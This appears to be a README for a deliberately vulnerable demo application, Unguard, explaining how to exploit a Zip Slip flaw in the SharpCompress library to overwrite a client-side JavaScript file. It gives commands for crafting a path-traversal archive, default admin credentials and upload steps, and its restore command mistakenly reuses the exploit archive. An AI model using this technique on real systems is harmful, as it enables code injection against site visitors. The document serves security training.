 # Zip Slip

Zip Slip is a widespread arbitrary file overwrite critical vulnerability.
The vulnerability is exploited using a specially crafted archive that holds directory traversal filenames 
(e.g. `../../my-evil-file.js`).

The exact Zip Slip vulnerability in Unguard is contained in the third-party library *SharpCompress*, listed under
[CVE-2018-1002206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1002206).

It can be used to overwrite the `site.js` JavaScript file that is loaded for clients accessing the ad-service with 
arbitrary code.

## Preconditions and Requirements

For this exploit to work you need:
* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* (optional) [unguard-exploit-toolkit](../../INSTALL.md) set up

## Exploitation

### Payload

To exploit the Zip Slip vulnerability, you can either use a pre-made zip file that already contains a malicious 
relative file path to the `../js/site.js` file, or you can manually craft your own malicious zip archive.
If you want to use the pre-made exploit file, it is located in [./payloads/exploit-ads.zip](./payloads/exploit-ads.zip).

To craft your own zip file with relative paths, simply create a normal zip archive with your preferred tool, and then
use [7-zip](https://www.7-zip.org/) to rename your malicious script to a relative path:

````shell
$ 7za rn my-zip-slip-archive.zip site.js ../js/site.js
````

Verify that it contains relative files by displaying the contents:

```shell
$ zip -sf my-zip-slip-archive.zip
Archive contains:
  ../js/site.js
  kingfisher.jpg
  spring-bird.jpg
Total 3 entries (836313 bytes)
```
This example zip file also contains some images, that are displayed by the ad-service.

### Exploit without Toolkit CLI

If you don't want to use the exploit toolkit, you need to manually log in into unguard using username/password 
`admanager:admanager`, clicking on the *Ad Manager* link in the top bar and uploading your malcious archive.

![upload-ad-zip](./images/upload-ad-zip.png)


### Exploit with Toolkit CLI

For the exploit to work, you need to be logged in as a user with the AD_MANAGER Role. 
Log in as `admanager` (password is also admanager):

```shell
$ ug-exploit login admanager  
```

Afterwards, you need to upload the exploit archive:

```shell
$ ug-exploit ads-upload --archive-path ./exploits/zip-slip/payloads/exploit-ads.zip
```

### Restoring Original State

To restore the original state of the ad-service, upload `./payloads/original-ads.zip` using either the CLI or 
the Unguard UI.

To do that with the CLI, execute:

```shell
$ ug-exploit ads-upload --archive-path ./exploits/zip-slip/payloads/exploit-ads.zip
```

## Further Details

* [Zip Slip Vulnerability - Snyk Research](https://snyk.io/research/zip-slip-vulnerability)
